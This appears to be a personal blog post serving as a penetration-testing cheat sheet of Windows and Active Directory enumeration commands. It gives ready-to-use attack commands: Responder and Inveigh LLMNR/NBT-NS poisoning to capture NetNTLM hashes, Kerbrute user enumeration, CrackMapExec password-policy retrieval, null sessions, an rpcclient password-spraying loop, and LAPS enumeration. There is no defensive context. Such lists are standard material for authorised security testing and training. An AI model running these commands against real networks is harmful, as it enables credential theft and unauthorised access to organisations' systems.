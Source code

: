 ```yaml
---
layout: post
title: Commands & Hacks - Enumeration Tricks
toc: true
subtitle: Linux
comments: false
---
```


<b>Enumeration Tricks:</b> <br>

TCPdump:
```
tcpdump -i <interface>
```

Responder for DNS requests to identify unique hosts

Responder for LLMNR over UDP 5535 OR NBT-NS over UDP 137 to obtain NetNTLM Hash
```
responder -I <interface> -A
```

Fping Active Checking a Subnet:
```
fping -asgq 172.11.5.0/23
```
Enumerate hosts:
```
netdiscover -r <subnet> | awk '{print $1}'
```

Enumerate AD Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Using Inveigh for LLMNR/NBT-NS request poisoning
```
Import-Module .\inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
With valid domain credentials, Using CrackMapExec to obtain the password policy
```
crackmapexec smb 172.10.5.5 -u <user> -p <password> --pass-pol
```
Establishing a null session from windows
```
net use \\DC01\ipc$ "" /u:""
```
View windows account errors:
```
net use \\DC01\ip$ "" /u:guest
```
Internal Password Spraying through Linux:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <dc> | grep Authority; done
```

Microsoft LAPS Enumeration:
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputers
```

